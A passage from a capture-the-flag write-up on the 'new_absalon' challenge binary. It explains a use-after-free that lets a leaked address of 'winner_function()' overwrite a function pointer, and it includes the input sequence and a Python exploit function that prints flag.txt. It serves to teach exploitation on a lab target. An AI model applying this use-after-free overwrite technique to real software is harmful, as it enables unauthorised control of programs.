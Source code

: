 * Lastly, we can also make the program crash by repeatedly creating new accounts
  and exhausting program memory since old `kuid`s are not `free`d, but the exact
  user input required is not constant:
```
m
foo
m
foo
...
```


### Exploiting `new_absalon` to expose `flag.txt`

The secret leaked by the first vulnerability is actually the address of
`winner_function()`, a function which reads and prints the contents of
`./flag.txt`. Our goal is to jump to this address somehow. 

I did not find any windows for stack overflows, and hence I cannot gain `RIP`
control, so I need another way to control flow. I notice that
`doAction(student)` does not discriminate in any way about the function pointer
stored in `student->action`, so my goal now is to somehow overwrite this with
the leaked address of `winner_function()`.

As explained there is a UAF vulnerability on the global `student` struct, so if
we are lucky, we should be able to deallocate `student`, allocate a new 8 byte
message on top of the previous `student->action`, write the address of
`winner_function()` as a message, and, using the fact that the `L` command does
not overwrite `student->action` before the next `doAction(student)`, as well as
the UAF, we can jump the winner function. Easy!

The exploit user interaction input is then:

```
siyl     // expose secrets, deallocate student, and leave message.
<secret> // <secret> is the secret address exposed by the 's' command.
```

#### `doit_new_absalon.py`

Below snippet shows the interesting part of my Python exploit script:

```python
def exploit(p):
    # first, we subscribe to expose secrets, inquire to graduate
    # to deallocate student, and then query to leave a message.
    write(p, b"siyl")

    # extract secret address!
    # a bunch of lines will have been printed at this point, so we simply read
    # everything and assume that the output contains exactly one hexadecimal
    # number, which we extract using regex.
    secrets = read_until(p, b"you can try anyways: \n")

    if not (addr_match := re.search(br"0x[0-9a-fA-F]+", secrets)):
        raise ValueError("Failed to extract secrets")
    addr_bytes = int(addr_match[0], 16).to_bytes(8, "little")

    # now, we send the secret address as a message, which is then
    # written on top of the previous student->action. This is followed by
    # a call to doAction(student), jumping to the secret address.
    write(p, addr_bytes)

    flag_contents = str(read_line(p), encoding = "ascii")
    print(f"first line of flag.txt: \"{flag_contents}\"")
```
